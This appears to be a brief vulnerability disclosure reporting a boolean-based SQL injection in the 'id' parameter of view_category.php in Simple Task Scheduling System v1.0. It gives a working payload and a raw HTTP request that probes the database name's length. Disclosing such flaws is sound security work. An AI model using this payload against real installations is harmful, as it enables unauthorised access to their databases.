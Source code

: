 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

BUG_Author: RUST

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/categories/view_category.php

Vulnerability location: /tss/admin/categories/view_category.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392383-ed052d85-6d69-4fd4-a0a3-62cd46ed51b2.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392390-ae252c71-6482-4026-9664-231d3d34b6bf.png)
